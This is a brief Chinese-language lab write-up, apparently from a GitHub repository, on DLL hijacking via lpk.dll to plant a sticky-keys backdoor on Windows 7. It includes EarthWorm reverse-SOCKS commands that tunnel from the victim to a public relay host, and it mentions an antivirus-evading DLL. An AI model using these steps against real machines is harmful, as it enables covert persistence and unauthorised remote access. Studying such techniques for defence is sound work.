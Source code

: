 # dll劫持
原理：Windows执行exe的时候会调用lpk.dll这个库，默认调用exe所在目录下的lpk.dll然后就上传lpk.dll到含有会经常执行的exe所在的文件夹，然后当执行这个软件的时候就会运行上传的dll，然后这个dll就会上传shift后门，但是shift后门已经有点不适用了
- Windows从win8开始就默认使用网络级别的验证，就是说输入用户名密码不再是远程连接到目标主机后才输入，而是要再远程到对方系统之前就输入。关闭网络级别的身份验证是取消“仅允许运行使用网络级别身份验证的计算机连接（建议）”选项
- Windows目前对system目录的续写权限设置的比较高，想要写入shift后门就需要很高的权限，而shift后门就是为了提高权限。就冲突了

# 实验环境
- Windows xp 攻击机
- Windows7 被攻击机
- 公网主机 主要用于转发
> 不再一个网段，需要端口转发,实验环境因为这两套系统还有原来的客户端级别的验证方式,假设已经取得了一个shell,(本来想安装一个sqlserver来着 安装包实在太大了  安装上就没法睡觉了 )


# 代理先练一下代理
还是使用ew socks代理,再熟悉一下明天再用别的
```
公网上
./ew_for_Linux32 -s rcsocks -l 1081 -e 8889 
win7上
ew_for_Win.exe -s rssocks -d 45.*.*.190 -e 8889
xp上
Proxifie直接配置全局代理
```
有点不稳 还是来一把端口转发吧
```

```

# 上传lpk.dll
上传的是渗透工具包里面的免杀版本，还附带了一个sethc.exe直接尝试运行这个exe

